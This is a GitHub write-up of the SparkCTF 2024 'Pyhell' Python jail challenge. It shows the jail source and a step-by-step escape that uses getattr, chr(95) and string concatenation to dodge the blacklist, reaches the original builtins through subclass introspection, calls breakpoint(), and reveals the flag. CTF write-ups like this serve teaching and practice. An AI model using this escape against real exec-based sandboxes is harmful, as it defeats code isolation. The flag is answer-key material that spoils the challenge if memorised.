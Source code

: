 ## Pyhell-Task-SparkCTF-2024
This repo will cover the writeup for the pyjail task hosted at SparkCTF 2024
# Description
This task focused on breaking a Python environment that restricts the built-in functions accessible to the user and employs a blacklist to prohibit specific keywords and characters, which could otherwise be exploited to circumvent these limitations.

#### Files: jail.py
```python
import re
import builtins
import sys

def safe_eval(user_input):
    safe_builtins = {
        "__builtins__": {name: getattr(builtins, name) for name in ['print', 'int', 'float', '__import__', 'getattr', 'chr']}
    }

    try:
        exec(user_input, safe_builtins, {})
    except Exception as e:
        print(f"Error: {e}")
        sys.exit(1)

def jail():
    ascii_art = """
                                                                                                        _..._                                  
                                .---..---.                                                           .-'_..._''.                    .---..---. 
   .              __.....__     |   ||   |          .--.   _..._                                   .' .'      '.\\     __.....__     |   ||   | 
 .'|          .-''         '.   |   ||   |          |__| .'     '.                                / .'            .-''         '.   |   ||   | 
<  |         /     .-''"'-.  `. |   ||   |          .--..   .-.   .                              . '             /     .-''"'-.  `. |   ||   | 
 | |        /     /________\\   \\|   ||   |          |  ||  '   '  |              __              | |            /     /________\\   \\|   ||   | 
 | | .'''-. |                  ||   ||   |          |  ||  |   |  |           .:--.'.            | |            |                  ||   ||   | 
 | |/.'''. \\\\    .-------------'|   ||   |          |  ||  |   |  |          / |   \\ |           . '            \\\\    .-------------'|   ||   | 
 |  /    | | \\    '-.____...---.|   ||   |          |  ||  |   |  |          `" __ | |            \\ '.          .\\    '-.____...---.|   ||   | 
 | |     | |  `.             .' |   ||   |          |__||  |   |  |           .'.''| |             '. `._____.-'/ `.             .' |   ||   | 
 | |     | |    `''-...... -'   '---''---'              |  |   |  |          / /   | |_              `-.______ /    `''-...... -'   '---''---' 
 | '.    | '.                                           |  |   |  |          \\ \\._,\\ '/                       `                                
 '---'   '---'                                          '--'   '--'           `--'  `"                                                         
!! Even Michael Scofield can not escape this .
    """
    print(ascii_art)

    max_input_length = 553

    while True:
        user_input = input(">>> ")

        if len(user_input) > max_input_length:
            print("Bro chill !!! That's kinda long")
            continue

        blacklist = ['exec', 'eval', 'os', 'sys', 'subprocess', 'file', 'open', 'register', 'setattr', 'input', 'mro', 'globals', 'class', 'getitem', 'breakpoint', '_', '.','[',']']

        for block in blacklist:
            if block in user_input:
                print(f"No no {block} is not allowed in here")
                break
        else:
            safe_eval(user_input)

if __name__ == "__main__":
    jail()
```
### Payload-example :
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```

Since we have a custom builtins that restrices us from doing pretty much anything, the idea is mainly to find a payload that can access the original builtins. This payload navigates Python's internal structures to reference the original __builtins__ module not the restricted version provided in the script.
But first we need to find replacements for `_ [ ] .` and other words like `class register builtins breakpoint`.
The main key is to exploit the custom builtins set in our `safe_eval` function. Pretty much `print int float` are kinda usless in our case ( maybe print is useful to test ). We can notice that we have the `getattr` function which if you google it you can already find that it can replaces `.` to accessing attributes.
Another thing in our custom builtins we notice the `chr` function which we can use to replace the `_` by just using `chr(95)`, so now 2 of our major problems are done. 
We will conduct another search to find alternatives for replacing the use of `[]` in Python and one of the main things we will find is the use of getitem method.
We are almost done we found a way to replace the main restrictions  `_ [ ] .`. Now we just need to find a way to bypass the restrictions set for the words in the blacklist which pretty easy we need just to concatenate them using `+` for example we change `class` to `'cl'+'ass'`. That's it now we how to bypass everything all we need to do is construct our new payload ( just don't tilt while constructing it ) 
Our payload should transform from: 
 ```python
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]()
```
to: 
 ```python
getattr(getattr(getattr(getattr(getattr(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'subcl'+'asses' + chr(95) + chr(95))(getattr(getattr((), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95)), chr(95) + chr(95) + 'cl'+'ass' + chr(95) + chr(95))), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))(0), 'regi'+'ster'), chr(95) + chr(95) + 'buil'+'tins' + chr(95) + chr(95)), chr(95) + chr(95) + 'get'+'item' + chr(95) + chr(95))('break'+'point')()
```
After using the breakpoint() function and starting the debugger we can just open our flag 
![Alt text](/flag.png)

 ```python
print(__import__('builtins').open('flag.txt', 'r').read())                                                                                                                                                                            
```
We need to import the builtins once again since open is not defined ( sorry not sorry) 
and their we go we have our flag : `SparkCTF{PYJ41L_15_N0_FUN}`
